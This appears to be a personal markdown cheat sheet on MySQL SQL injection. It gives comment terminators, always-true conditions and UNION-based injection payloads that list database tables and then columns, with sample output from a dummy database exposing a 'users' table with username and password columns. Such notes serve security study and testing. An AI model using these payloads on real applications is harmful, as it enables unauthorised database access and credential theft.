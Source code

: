 # mysql hacking

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```


